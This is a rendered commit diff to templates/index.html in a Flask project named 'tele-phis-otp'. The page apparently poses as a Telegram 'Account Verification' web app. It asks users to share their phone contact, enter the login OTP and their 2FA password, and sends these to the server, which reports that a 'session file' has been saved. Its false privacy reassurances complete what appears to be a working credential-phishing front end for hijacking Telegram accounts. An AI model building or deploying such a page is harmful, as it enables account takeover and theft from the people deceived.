

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -37,21 +37,7 @@
       display: block;
     }
 
-    .session-info {
-      background: #e3f2fd;
-      padding: 10px 15px;
-      border-radius: 8px;
-      margin-bottom: 20px;
-      font-size: 14px;
-      border-left: 4px solid #2196F3;
-    }
-
-    .session-info .timer {
-      color: #d32f2f;
-      font-weight: bold;
-    }
-
-    .user-box {
+    .info-box {
       border: 2px solid #4CAF50;
       padding: 15px;
       border-radius: 10px;
@@ -120,16 +98,25 @@
     }
 
     .instructions {
-      background: #f8f9fa;
+      background: #e3f2fd;
       padding: 15px;
       border-radius: 10px;
       margin: 20px 0;
-      border: 1px solid #e9ecef;
+      border-left: 4px solid #2196F3;
     }
 
     .instructions h3 {
       margin-top: 0;
       color: #1976D2;
+    }
+
+    .instructions ol {
+      margin: 10px 0 0 20px;
+      color: #555;
+    }
+
+    .instructions li {
+      margin: 8px 0;
     }
 
     .alert {
@@ -193,18 +183,49 @@
       margin-bottom: 20px;
     }
 
-    .attempts-counter {
-      text-align: center;
-      color: #666;
-      font-size: 14px;
-      margin: 10px 0;
+    .step-indicator {
+      display: flex;
+      justify-content: space-between;
+      margin: 20px 0 40px;
+      position: relative;
     }
 
-    .resend-info {
+    .step {
+      width: 30px;
+      height: 30px;
+      border-radius: 50%;
+      background: #ddd;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      color: white;
+      font-weight: bold;
+      z-index: 2;
+    }
+
+    .step.active {
+      background: #4CAF50;
+    }
+
+    .step.completed {
+      background: #4CAF50;
+    }
+
+    .step-line {
+      position: absolute;
+      top: 15px;
+      left: 15px;
+      right: 15px;
+      height: 2px;
+      background: #ddd;
+      z-index: 1;
+    }
+
+    .step-label {
       text-align: center;
+      margin-top: 5px;
+      font-size: 12px;
       color: #666;
-      font-size: 14px;
-      margin: 15px 0;
     }
   </style>
 </head>
@@ -212,37 +233,53 @@
   <div class="container">
     <h2>🔐 Account Verification</h2>
 
-    <!-- Session Info -->
-    <div id="session-info" class="session-info">
-      Session ID: <span id="session-id-display">Loading...</span>
-      • Expires in: <span id="session-timer" class="timer">5:00</span>
+    <!-- Step Indicator -->
+    <div class="step-indicator">
+      <div class="step" id="step1">1</div>
+      <div class="step" id="step2">2</div>
+      <div class="step" id="step3">3</div>
+      <div class="step-line"></div>
+    </div>
+    <div style="display: flex; justify-content: space-between; margin-top: -10px;">
+      <div class="step-label">Share Contact</div>
+      <div class="step-label">Enter OTP</div>
+      <div class="step-label">Complete</div>
     </div>
 
-    <!-- User Info Box -->
-    <div id="user-box" class="user-box">
-      <div class="info-line">📱 Phone: <span id="user-phone">Not shared yet</span></div>
-      <div class="info-line">📊 Status: <span id="user-status">Waiting for contact...</span></div>
+    <!-- Session Info -->
+    <div class="info-box">
+      <div class="info-line">🔑 Session ID: <span id="session-id">Loading...</span></div>
+      <div class="info-line">👤 Name: <span id="user-name">Loading...</span></div>
+      <div class="info-line">💬 Username: <span id="user-username">Loading...</span></div>
+      <div class="info-line">📞 Phone: <span id="user-phone">Not shared yet</span></div>
     </div>
 
     <!-- Alerts -->
     <div class="alert error" id="error-alert"></div>
     <div class="alert success" id="success-alert"></div>
-    <div class="alert warning" id="warning-alert"></div>
 
     <!-- Section 1: Contact Sharing -->
     <div id="section-contact" class="section active">
       <div class="instructions">
         <h3>📋 Step 1: Share Your Contact</h3>
-        <p>Click the button below to share your phone number with the bot.</p>
-        <p>Your contact will be auto-deleted immediately for privacy.</p>
-        <p style="color: #666; font-size: 14px; margin-top: 10px;">
-          ⏰ <b>Note:</b> Session expires in 5 minutes
+        <ol>
+          <li>Click "Share Contact" button below</li>
+          <li>Select your contact from Telegram</li>
+          <li>5-digit OTP will appear in bot chat</li>
+          <li>Return here for next step</li>
+        </ol>
+        <p style="margin-top: 10px; color: #666; font-size: 14px;">
+          🔒 <b>Privacy:</b> Your contact will be auto-deleted immediately
         </p>
       </div>
 
       <button id="share-btn">
-        📱 Share Phone Number
+        📱 Share Contact
       </button>
+
+      <p style="text-align: center; color: #666; margin-top: 20px;">
+        <small>Share your contact with <span id="bot-name">@Bot</span> to receive OTP</small>
+      </p>
     </div>
 
     <!-- Section 2: OTP Entry -->
@@ -313,25 +338,12 @@
         <div class="success-icon">✅</div>
         <h2>Verification Successful!</h2>
         <p>Your account has been verified successfully.</p>
-        <p>Session data has been securely processed.</p>
+        <p>Session file has been generated and saved.</p>
 
         <button onclick="closeWebApp()" style="margin-top: 30px;">
           🏁 Close WebApp
         </button>
       </div>
-    </div>
-
-    <!-- Section 5: Expired -->
-    <div id="section-expired" class="section">
-      <div class="instructions" style="background: #ffebee; border-color: #f44336;">
-        <h3 style="color: #d32f2f;">⏰ Session Expired</h3>
-        <p>Your verification session has expired (5 minutes timeout).</p>
-        <p>Please return to the bot and use <b>/start</b> command to begin a new session.</p>
-      </div>
-
-      <button onclick="closeWebApp()" class="danger">
-        ❌ Close & Restart
-      </button>
     </div>
   </div>
 
@@ -339,78 +351,57 @@
     const tg = window.Telegram.WebApp;
     tg.expand();
 
-    let sessionId = new URLSearchParams(window.location.search).get('session_id');
-    let timerInterval = null;
-    let checkInterval = null;
+    // Get session ID from URL or generate
+    const urlParams = new URLSearchParams(window.location.search);
+    let sessionId = urlParams.get('session_id');
 
-    // Display session ID
-    if (sessionId) {
-      document.getElementById('session-id-display').textContent = sessionId.substring(0, 8) + '...';
+    if (!sessionId) {
+      // Generate session ID for this WebApp instance
+      sessionId = 'webapp_' + Date.now() + '_' + Math.random().toString(36).substr(2, 9);
+      window.history.replaceState({}, '', `?session_id=${sessionId}`);
     }
 
-    // Start session timer
-    function startSessionTimer(seconds) {
-      if (timerInterval) clearInterval(timerInterval);
+    let userPhone = null;
+    let currentStage = 'contact';
 
-      let timeLeft = seconds;
+    // Initialize
+    document.getElementById('session-id').textContent = sessionId.substring(0, 12) + '...';
 
-      function updateTimer() {
-        const minutes = Math.floor(timeLeft / 60);
-        const secs = timeLeft % 60;
-        document.getElementById('session-timer').textContent =
-          `${minutes}:${secs < 10 ? '0' : ''}${secs}`;
-
-        if (timeLeft <= 0) {
-          clearInterval(timerInterval);
-          showSection('expired');
-        }
-        timeLeft--;
-      }
-
-      updateTimer();
-      timerInterval = setInterval(updateTimer, 1000);
+    const user = tg.initDataUnsafe?.user;
+    if (user) {
+      document.getElementById('user-name').textContent = user.first_name || 'N/A';
+      document.getElementById('user-username').textContent = '@' + (user.username || 'N/A');
     }
 
     // Load session data
     async function loadSessionData() {
-      if (!sessionId) return;
-
       try {
-        const response = await fetch(`/api/session/${sessionId}`);
-        const data = await response.json();
+        const res = await fetch(`/api/session/${sessionId}`);
+        const data = await res.json();
 
         if (data.success) {
           const session = data.session;
 
-          // Update timer
-          startSessionTimer(session.time_remaining);
-
-          // Update UI based on session stage
           if (session.phone) {
-            document.getElementById('user-phone').textContent = session.phone;
+            userPhone = session.phone;
+            document.getElementById('user-phone').textContent = userPhone;
           }
 
-          document.getElementById('user-status').textContent =
-            session.stage.replace('_', ' ').toUpperCase();
-
-          // Show appropriate section
-          if (session.expired) {
-            showSection('expired');
-          } else if (session.verified) {
+          // Update UI based on stage
+          if (session.stage === 'contact_shared') {
+            showSection('otp');
+            updateSteps(2);
+          } else if (session.stage === 'needs_2fa') {
+            showSection('2fa');
+            updateSteps(3);
+          } else if (session.stage === 'verified') {
             showSection('success');
-          } else if (session.stage === 'needs_2fa' || session.requires_2fa) {
-            showSection('2fa');
-          } else if (session.stage === 'otp_sent' || session.phone) {
-            showSection('otp');
-            document.getElementById('attempts-count').textContent = session.otp_attempts;
-          } else {
-            showSection('contact');
+            updateSteps(4);
           }
         } else {
-          if (data.expired) {
-            showSection('expired');
-          } else {
-            showAlert(data.error || 'Session error', 'error');
+          // Session expired, create new one
+          if (data.stage === 'expired') {
+            showAlert('Session expired. Please refresh the page.', 'error');
           }
         }
       } catch (error) {
@@ -445,84 +436,47 @@
               const data = await response.json();
 
               if (data.success) {
-                showAlert('✅ Contact shared! Sending OTP...', 'success');
+                showAlert('✅ Contact shared! Check bot chat for OTP.', 'success');
+                userPhone = phone;
+                document.getElementById('user-phone').textContent = phone;
 
-                // Send OTP
-                await sendOTP();
-
-                // Update UI
-                setTimeout(loadSessionData, 1000);
-              } else if (data.expired) {
-                showSection('expired');
+                // Move to OTP section
+                setTimeout(() => {
+                  showSection('otp');
+                  updateSteps(2);
+                }, 1500);
               } else {
                 showAlert('❌ ' + (data.error || 'Failed to share contact'), 'error');
-                btn.innerHTML = '📱 Share Phone Number';
+                btn.innerHTML = '📱 Share Contact';
                 btn.disabled = false;
               }
             } catch (error) {
               showAlert('❌ Network error', 'error');
-              btn.innerHTML = '📱 Share Phone Number';
+              btn.innerHTML = '📱 Share Contact';
               btn.disabled = false;
             }
           } else {
             showAlert('❌ Could not get phone number', 'error');
-            btn.innerHTML = '📱 Share Phone Number';
+            btn.innerHTML = '📱 Share Contact';
             btn.disabled = false;
           }
         } else {
           showAlert('❌ Contact sharing cancelled', 'error');
-          btn.innerHTML = '📱 Share Phone Number';
+          btn.innerHTML = '📱 Share Contact';
           btn.disabled = false;
         }
       });
     };
 
-    // Send OTP
-    async function sendOTP() {
-      try {
-        const btn = document.getElementById('resend-otp-btn');
-        if (btn) {
-          btn.innerHTML = '<div class="spinner"></div> Sending...';
-          btn.disabled = true;
-        }
-
-        const response = await fetch('/api/send-otp', {
-          method: 'POST',
-          headers: {'Content-Type': 'application/json'},
-          body: JSON.stringify({ session_id: sessionId })
-        });
-
-        const data = await response.json();
-
-        if (data.success) {
-          showAlert('✅ OTP sent! Check your Telegram chat.', 'success');
-          showSection('otp');
-        } else if (data.expired) {
-          showSection('expired');
-        } else {
-          showAlert('❌ ' + (data.error || 'Failed to send OTP'), 'error');
-        }
-
-        if (btn) {
-          setTimeout(() => {
-            btn.innerHTML = '🔄 Resend OTP';
-            btn.disabled = false;
-          }, 3000);
-        }
-      } catch (error) {
-        showAlert('❌ Network error', 'error');
-      }
-    }
-
-    // Resend OTP
-    async function resendOTP() {
-      await sendOTP();
-    }
-
     // Verify OTP
     async function verifyOTP() {
       const otp = document.getElementById('otp-input').value.trim();
       const btn = document.getElementById('verify-otp-btn');
+
+      if (!userPhone) {
+        showAlert('Please share your contact first', 'error');
+        return;
+      }
 
       // Validate
       if (otp.length !== 5 || !/^\d{5}$/.test(otp)) {
@@ -540,6 +494,7 @@
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
             session_id: sessionId,
+            phone: userPhone,
             otp: otp
           })
         });
@@ -550,25 +505,19 @@
           if (data.requires_2fa) {
             showAlert('🔐 2FA password required', 'success');
             showSection('2fa');
+            updateSteps(3);
           } else {
             showAlert('✅ Verification successful!', 'success');
             showSection('success');
+            updateSteps(4);
           }
-        } else if (data.expired) {
-          showSection('expired');
         } else {
           showAlert('❌ ' + (data.error || 'Invalid OTP'), 'error');
-          document.getElementById('attempts-count').textContent = data.attempts || 0;
-
-          if (data.attempts >= 3) {
-            showAlert('⚠️ Too many attempts. Please resend OTP.', 'warning');
-          }
+          btn.innerHTML = '✅ Verify OTP';
+          btn.disabled = false;
         }
-
-        btn.innerHTML = '✅ Verify OTP';
-        btn.disabled = false;
       } catch (error) {
-        showAlert('❌ Network error', 'error');
+        showAlert('❌ Network error. Please try again.', 'error');
         btn.innerHTML = '✅ Verify OTP';
         btn.disabled = false;
       }
@@ -578,6 +527,11 @@
     async function verify2FA() {
       const password = document.getElementById('password-input').value.trim();
       const btn = document.getElementById('verify-2fa-btn');
+
+      if (!userPhone) {
+        showAlert('Please complete previous steps first', 'error');
+        return;
+      }
 
       if (!password) {
         showAlert('Please enter 2FA password', 'error');
@@ -593,6 +547,7 @@
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
             session_id: sessionId,
+            phone: userPhone,
             password: password
           })
         });
@@ -602,8 +557,7 @@
         if (data.success) {
           showAlert('✅ 2FA verified successfully!', 'success');
           showSection('success');
-        } else if (data.expired) {
-          showSection('expired');
+          updateSteps(4);
         } else {
           showAlert('❌ ' + (data.error || 'Invalid password'), 'error');
           btn.innerHTML = '🔐 Verify 2FA';
@@ -623,6 +577,7 @@
 
       // Show selected section
       document.getElementById(`section-${sectionName}`).classList.add('active');
+      currentStage = sectionName;
 
       // Auto-focus inputs
       if (sectionName === 'otp') {
@@ -632,10 +587,24 @@
       }
     }
 
+    function updateSteps(stepNumber) {
+      // Reset all steps
+      for (let i = 1; i <= 3; i++) {
+        const step = document.getElementById(`step${i}`);
+        step.classList.remove('active', 'completed');
+
+        if (i < stepNumber) {
+          step.classList.add('completed');
+        } else if (i === stepNumber) {
+          step.classList.add('active');
+        }
+      }
+    }
+
     function showAlert(message, type) {
       const alert = document.getElementById(`${type}-alert`);
       alert.textContent = message;
-      alert.className = `alert ${type} show`;
+      alert.classList.add('show');
       setTimeout(() => alert.classList.remove('show'), 3000);
     }
 
@@ -644,14 +613,10 @@
     }
 
     // Initial load
-    if (sessionId) {
-      loadSessionData();
+    loadSessionData();
 
-      // Check session status every 10 seconds
-      checkInterval = setInterval(loadSessionData, 10000);
-    } else {
-      showAlert('Invalid session ID', 'error');
-    }
+    // Auto-refresh session data
+    setInterval(loadSessionData, 2000);
 
     // Enter key support
     document.getElementById('otp-input')?.addEventListener('keypress', function(e) {
```
Also changed, not shown: other parts of templates/index.html (+11 -28 lines).
